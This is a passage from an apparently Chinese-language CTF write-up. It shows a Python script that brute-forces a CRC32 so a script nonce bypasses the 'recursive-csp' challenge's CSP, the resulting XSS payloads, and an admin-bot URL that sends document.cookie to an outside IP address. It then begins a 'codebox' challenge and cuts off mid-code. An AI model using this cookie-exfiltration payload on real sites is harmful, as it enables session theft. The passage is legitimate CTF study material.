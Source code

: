 爆破 crc32

```python
import zlib
import itertools
import time

iterator = itertools.product('abcdef0123456789', repeat=8)

# payload = 'location.href=location.hash.substr(1)+document.cookie;'
payload = 'location.href=location.hash.substr(1)+document.cookie '

print(time.strftime("%Y-%m-%d %H:%M:%S", time.localtime()))

for i in iterator:
    crc32_a = ''.join(i)
    text = '<script nonce="{}">{}</script>'.format(crc32_a, payload)
    crc32_b = str(hex(zlib.crc32(text.encode())))[2:].zfill(8)
    if crc32_a == crc32_b:
        print(text)
        break

print(time.strftime("%Y-%m-%d %H:%M:%S", time.localtime()))
```

这里给两个结果

```html
<script nonce="f6320c31">location.href=location.hash.substr(1)+document.cookie </script>
<script nonce="98981c14">location.href=location.hash.substr(1)+document.cookie;</script>
```

admin bot 提交

```
https://recursive-csp.mc.ax/?name=<script+nonce%3d"f6320c31">location.href%3dlocation.hash.substr(1)%2bdocument.cookie+</script>&#http://1.117.70.230:65444/?
```

![image-20230204101058362](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302041011437.png)

## codebox [复现]

后端 web.js

```javascript
const fastify = require('fastify')();
const HTMLParser = require('node-html-parser');

const box = require('fs').readFileSync('box.html', 'utf-8');

fastify.get('/', (req, res) => {
    const code = req.query.code;
    const images = [];

    if (code) {
        const parsed = HTMLParser.parse(code);
        for (let img of parsed.getElementsByTagName('img')) {
            let src = img.getAttribute('src');
            if (src) {
                images.push(src);
            }
        }
    }

    const csp = [
        "default-src 'none'",
```